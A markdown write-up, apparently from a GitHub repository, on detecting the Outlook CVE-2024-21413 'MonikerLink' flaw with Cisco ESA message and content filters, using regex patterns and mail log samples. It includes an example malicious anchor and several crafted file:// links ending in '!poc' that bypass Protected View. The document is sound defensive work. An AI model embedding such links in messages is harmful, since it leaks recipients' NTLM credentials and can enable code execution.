

# CVE-2024-21413.md


This CVE-2024-21413 seems to utilize the file:// based URL combined with an exclamation mark ('!') and some text added at the end of the link to bypass built-in MS Outlook restriction.

> An attacker could craft a malicious link that bypasses the Protected View Protocol, which leads to the leaking of local NTLM credential information and remote code execution (RCE).
> 
> Source: [CVE-2024-21413](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2024-21413)


Example of a suspicious link that can trigger PTH:

```
<a href="file:///192.0.2.1/cve-2024-21413!cve\">Click Me</a>
```

The file protocol can refer to open files on local or network drive. We should be interested in a blocking any file:// based URLs. 


Cisco ESA doesn't evaluate non-web hyperlinks, the ones that don't start with http:// or https:// protocol or do not include a www subdomain. But we know that not all hyperlinks are web links. The URL scheme supports plenty of others like ftp://, ssh://, or the file:// protocol. The Cisco ESA cannot evaluate non-web URLs but can detect them using Message or Content Filters. Using the right regex we can implement simple or more complex detection of these non-web URLs.

To reduce FP cases let's create a filter that covers IPv4 and domain-based URLs.

An example of a simple IPv4-based regex:

```
file:\/{0,4}\\{0,2}[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}
```

This covers URLs starting with file: protocol followed by 0 to 4 slashes ('/') and/or 0 to 2 backslashes ('\').
The following samples have been considered and tested:


1) `file://192.0.2.1/asdad`
2) `file:////192.0.2.1/asdad`
3) `file:///192.0.2.1/asdad`
4) `file://\\192.0.2.1/asdad`
5) `file:///\192.0.2.1/asdad`
6) `file:///\\192.0.2.1/asdad`


A similar regex for domain-based URLs:

```
file:\/{0,4}\\{0,2}(?:[a-zA-Z0-9](?:[a-zA-Z0-9\-]{0,61}[a-zA-Z0-9])?\.)+[a-zA-Z]{2,}
```

An example of a hostname-based URL samples


7) `file://server.com/asdsad`
8) `file:///server.com/asdsad`


The filter for this can be covered in a single condition but this test will use two conditions.

Message Filter version: 

```sh
CVE-2024-21413: if (recv-listener == "IncomingMail") {
    if ( body-contains("file:\\/{0,4}\\\\{0,2}[0-9]{1,3}\\.[0-9]{1,3}\\.[0-9]{1,3}\\.[0-9]{1,3}", 1) 
     or 
     body-contains("file:\\/{0,4}\\\\{0,2}(?:[a-zA-Z0-9](?:[a-zA-Z0-9\\-]{0,61}[a-zA-Z0-9])?\\.)+[a-zA-Z]{2,}", 1)
    ){
        log-entry("MF-FILE_URL: $MatchedContent");
        #quarantine('Policy');
    }
}
```

Content Filter version: 





### Filter in action:


Example of mail_logs for tested IPv4-based URLs: 

```log
# file:///\\172.16.200.55/cve!poc
 Thu Mar 21 16:14:14 2024 Info: MID 147069 Custom Log Entry: CF-FILE_URL: file:///\\\\172.16.200.55

# file:///\172.16.200.55/cve!poc
 Thu Mar 21 16:16:03 2024 Info: MID 147070 Custom Log Entry: CF-FILE_URL: file:///\\172.16.200.55

# file:\\172.16.200.55/cve!poc
 Thu Mar 21 16:59:21 2024 Info: MID 147073 Custom Log Entry: CF-FILE_URL: file:\\\\172.16.200.55
```

And some mail_logs for domain-based URLs: 

```log
# file:///\kali.taclab.com/cve!poc
 Thu Mar 21 16:12:51 2024 Info: MID 147068 Custom Log Entry: CF-FILE_URL: file:///\\\\kali.taclab.com

# file:////\taclab.com/cve!poc
 Thu Mar 21 16:08:18 2024 Info: MID 147066 Custom Log Entry: CF-FILE_URL: file:////\\taclab.com

# file:////\\kali.taclab.com/cve!poc
 Thu Mar 21 16:07:30 2024 Info: MID 147065 Custom Log Entry: CF-FILE_URL: file:////\\\\kali.taclab.com
```


This can be __simplified__ to a filter that looks for the `file://\\`  with the combination of single or multiple slashes and backslashes combined with some alphanumeric characters (including '-','!', and '.')

```sh
MF_FILE_URL: if (recv-listener == "IncomingMail") {
    if ( 
        body-contains("file:\\/{0,4}\\\\{0,2}[0-9a-zA-Z\\!-\\.]+", 1) 
    )
    {
        log-entry("MF-FILE_URL2: $MatchedContent");
        #quarantine('Policy');
    }
}
```

Similar catch rate with tested samples: 

```log
# file:///\\taclab.com\cve2024-21413!poc
 Mon Mar 25 13:20:20 2024 Info: MID 147140 Custom Log Entry: MF-FILE_URL: file:///\\\\taclab.com
 Mon Mar 25 13:20:20 2024 Info: MID 147140 Custom Log Entry: MF-FILE_URL2: file:///\\\\taclab.com

# file:///\\172.16.200.55\cve2024-21413!poc
 Mon Mar 25 13:27:47 2024 Info: MID 147143 Custom Log Entry: MF-FILE_URL: file:///\\\\172.16.200.55
 Mon Mar 25 13:27:47 2024 Info: MID 147143 Custom Log Entry: MF-FILE_URL2: file:///\\\\172.16.200.55
```


Ref:

- https://research.checkpoint.com/2024/the-risks-of-the-monikerlink-bug-in-microsoft-outlook-and-the-big-picture/
- https://github.com/xaitax/CVE-2024-21413-Microsoft-Outlook-Remote-Code-Execution-Vulnerability/tree/main
- https://en.wikipedia.org/wiki/File_URI_scheme